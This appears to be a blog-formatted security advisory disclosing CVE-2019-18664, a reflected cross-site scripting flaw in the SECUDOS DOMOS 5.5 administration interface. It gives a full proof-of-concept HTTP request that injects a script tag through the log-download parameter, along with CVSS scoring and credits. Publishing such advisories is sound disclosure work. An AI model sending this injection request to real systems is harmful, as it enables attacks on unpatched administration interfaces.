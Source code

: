 ```yaml
---
layout: post
title: "CVE-2019-18664: Reflected XSS in DOMOS"
date:   2019-11-01 15:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Overview

- Vendor: SECUDOS GmbH
- Product: DOMOS
- Version: 5.5
- Vulnerability: Relected Cross-Site Scripting
- Fixed Version: 5.6

# Background

DOMOS is an own and hardened operating system of SECUDOS GmbH. The operating system is used as a platform by several applications. It also offers a web interface for the administration of operating system settings.

# Issue Description

While analyzing the implementation of the DOMOS web interface, one reflected Cross-Site-Scripting vulnerability has been identified, which can be exploited in order to read password hashes from the file system. This vulnerability can be exploited by authenticated attackers with access to the web interface.

Please consider the following complete HTTP-Request:

__HTTP-Request__

~~~ http
GET /page/sl_logdl?dcfct=DCMlog.download_log&dbkey%3Asyslog.rlog=%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1

Host: 10.10.10.1:10000
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
  (KHTML, like Gecko) Falkon/3.0.1 Chrome/69.0.3497.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,
image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.8
Cookie: L=german; S=WdylJWgYQfqXVu1VkvBP9pwxBdh91bhDWB87eB5h;
session_id=09bced960d7c7bb0cc15d28c7128b5bc86e7c611
~~~

# CVE

[CVE-2019-18664](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18664)

# CVSSv3 Base Score

CVSS Base Score: __3.5__

CVSS:3.0/AV:N/AC:H/PR:L/UI:R/S:U/C:L/I:N/A:N

# Credit

Pascal Keul of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

Torsten Löbner of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
